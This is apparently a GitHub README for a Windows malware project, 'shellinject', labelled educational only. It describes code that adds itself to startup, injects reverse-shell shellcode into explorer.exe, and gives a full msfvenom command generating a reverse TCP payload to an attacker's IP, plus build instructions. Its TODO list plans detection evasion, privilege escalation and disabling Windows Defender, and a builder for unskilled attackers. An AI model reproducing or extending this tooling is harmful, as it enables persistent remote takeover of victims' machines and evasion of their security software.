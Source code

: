 # shellinject for edu  ONLY!



code explain the code is writing itself to windows startup then it finding the pid of explorer.exe 
and injecting shell code in my example its reverse_shell 

------------------------------------------------------------------------------------

you nead to change the pass to the meoware.exe in here + you can change the auto startup name 



![Screenshot (10)](https://github.com/masterconi/shellinject/assets/85493153/8c445392-241b-4eed-a331-b1ce144e0387)


-----------------------------------------------------------------------------------


before use change the shellcode to your shellcode you can generate it useing msfvenom 
for example ```msfvenom --platform windows --arch x64 EXITFUNC=thread -p windows/x64/shell/reverse_tcp_rc4 LHOST=YOURE_IP LPORT=YOURE_PORT RC4PASSWORD=YOURE_PASS EXITFUNC=thread -f c --var-name=ucReverseShell```
copy it to here  
![Screenshot (8)](https://github.com/masterconi/shellinject/assets/85493153/d8ef7109-650f-40f0-af7f-aad2e9be4628)


-------------------------------------------------------------------------------------

plus you can change the executeble to be injected in here :
![Screenshot (9)](https://github.com/masterconi/shellinject/assets/85493153/02713da7-7695-45b3-9ef7-bed1fbe6e6c4)

------------------------------------------------------


to build the repo try to do it with g++ or msvs

g++ example :``` g++ add_to_startup.cpp find_pid.cpp shellinj.cpp -o meoware.exe```

sorry idk how copy it to msvs  ¯\\_(ツ)_/¯

----------------------------------------------------

why i did it ?

i have nothin to do at holidays :-D

--------------------------------------------------------
TODO : make hard to detect , make the shell code encrypted ,  make readme.md more beautiful (✿◡‿◡), make a builder for script_kids (like you yes you the one how reading it)（￣︶￣）


ON_WORKrn: add priv esc ,make the shell code inject "vir.dll" ,disable windows defender :)


i would be happy to get help thanks
----------------------------------------------------------------------------

why the code so shity : 1:becouse i make it in my free time and i am to lazy for makeing it beautiful ,2: shutup scrypt_kiddie


